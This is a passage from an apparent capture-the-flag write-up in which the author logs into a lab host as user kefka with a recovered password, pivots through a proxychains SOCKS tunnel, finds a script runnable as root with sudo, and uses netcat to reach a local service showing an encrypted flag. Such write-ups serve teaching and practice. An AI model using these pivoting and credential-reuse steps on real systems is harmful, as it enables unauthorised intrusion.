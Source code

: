 Yep! However, another random string. Remembering the note about this being a disk image from `kefka`, I attempted to SSH into **192.168.4.100** as `kefka` with this password:

```bash
root@kali:~# proxychains ssh -D 8002 kefka@192.168.4.100
ProxyChains-3.1 (http://proxychains.sf.net)
kefka@192.168.4.100's password: # entered 5224XbG5ki2C
Linux adm 3.2.0-4-amd64 #1 SMP Debian 3.2.60-1+deb7u3 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Nov  9 07:14:02 2014 from 192.168.4.50
kefka@adm:~$
```

A final `tcp/8002` proxy was opened on my attacking machine.

## taking the last ride to the flag
Enumeration as kefka revealed that this user is allowed to run `/opt/wep2.py` as root. This is almost screaming at me as the privilege escalation path!

I ran the script with sudo, just to be presented with... nothing :/ No matter what I typed in, I received no output. That was until I ^C the application and receive a traceback, hinting towards the fact that it may have opened a socket:

```bash
kefka@adm:~$ sudo /opt/wep2.py
^CTraceback (most recent call last):
  File "/opt/wep2.py", line 93, in <module>
    sock, addr = s.accept()
  File "/usr/lib/python2.7/socket.py", line 202, in accept
    sock, addr = self._sock.accept()
KeyboardInterrupt
kefka@adm:~$
```

I re-run the script backgrounding it with `&`, and inspect the output of `netstat -pant` to reveal a port 1234 to be open. From my attacking machine, I connected to the socket using proxychains on the new `tcp/8002` proxy. The 127.0.0.1 is in fact 192.168.4.100 and not my actual localhost:

```bash
# /etc/proxychains.conf has line
# socks5    127.0.0.1 8002

# connections will appear to be coming from localhost
root@kali:~# proxychains nc -v 127.0.0.1 1234
ProxyChains-3.1 (http://proxychains.sf.net)
127.0.0.1: inverse host lookup failed:
(UNKNOWN) [127.0.0.1] 1234 (?) open : Operation now in progress
=============================
Can you retrieve my secret..?
=============================

Usage:
'V' to view the encrypted flag
'E' to encrypt a plaintext string (e.g. 'E AAAA')

V
5a5062:36507a63b56865f7fd201860
^C
root@kali:~#
```
